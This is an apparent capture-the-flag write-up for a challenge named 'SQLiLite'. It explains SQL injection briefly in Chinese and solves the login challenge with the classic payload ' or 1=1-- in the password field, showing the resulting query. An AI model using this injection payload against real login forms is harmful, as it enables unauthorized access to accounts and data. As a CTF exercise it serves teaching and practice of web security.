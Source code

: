 # SQLiLite

## Information

### Description

Can you login to this website?

### Hints

(None)

## Solution

* **SQL injection**: 透過將輸入夾帶 SQL 指令以達成獲取資料庫中民感資料或控制資料庫。

* payload
    * Username:
        ```
        admin
        ```
    * Password: 
        ```
        ' or 1=1--
        ```
* Result
    ```
        username: admin
        password: ' or 1=1--
        SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1=1--'
    ```